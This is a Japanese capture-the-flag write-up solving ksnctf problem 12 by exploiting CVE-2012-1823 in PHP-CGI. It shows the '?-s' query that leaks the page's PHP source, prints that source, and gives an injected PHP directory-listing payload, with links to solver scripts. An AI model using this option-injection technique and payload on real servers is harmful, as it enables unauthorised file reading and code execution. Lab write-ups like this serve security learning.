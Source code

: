 ## [12. Hypertext Preprocessor](http://ksnctf.sweetduet.info/problem/12)

アクセスすると、なにやら数字が並んでいる。
ページのタイトルが "Clock" で、数字にも日付らしき部分が含まれている。
また、ページを更新するとこの部分の表示も進むようだ。

しかし、年らしき部分の前にも数字の列 "2012:1823" があり、これが何なのか分からない。
そこでググってみると、CVE-2012-1823 が存在し、[徳丸浩氏による解説](https://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html) を見ると、本問に使えそうなことが分かる。
URLで指定するクエリによってPHPのオプションを指定できるようだ。

例えばPHPコードを表示する `-s` オプションを指定するため `http://ctfq.sweetduet.info:10080/~q12/index.php?-s` にアクセスすると、次のレスポンスを得る。

```php
 <?php

    //  Flag is in this directory.

    date_default_timezone_set('UTC');

    $t = '2012:1823:20:';
    $t .= date('y:m:d:H:i:s');
    for($i=0;$i<4;$i++)
        $t .= sprintf(':%02d',mt_rand(0,59));
?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Clock</title>
    <style>
      body
      {
        background: black;
      }
      p
      {
        color: red;
        font-size: xx-large;
        font-weight: bold;
        text-align: center;
        margin-top: 200px;
      }
    </style>
  </head>
  <body>
    <p><?php echo $t; ?></p>
  </body>
</html>
```

`Flag is in this directory.` とのことなので、CVE-2012-1823を利用してファイルを読めばよさそうだ。
具体的な手法は上述の徳丸浩氏による解説サイトに詳しい。

まず、ファイル名を得るためにディレクトリのエントリを読む。

```php
<?php

$res_dir = opendir('.');
while ($file_name = readdir($res_dir)) {
    print "{$file_name}\n";
}
closedir($res_dir);

?>
```

するとflagが格納されていそうなファイル名が得られるので、今度は `readfile()` で読めばよい。

* [Rust版](https://github.com/ordovicia/ksnctf/blob/master/12_Hypertext_Preprocessor/solve)
    * [cargo-script](https://github.com/DanielKeep/cargo-script) で実行できる。
* [Python版](https://github.com/ordovicia/ksnctf/blob/master/12_Hypertext_Preprocessor/solve.py)
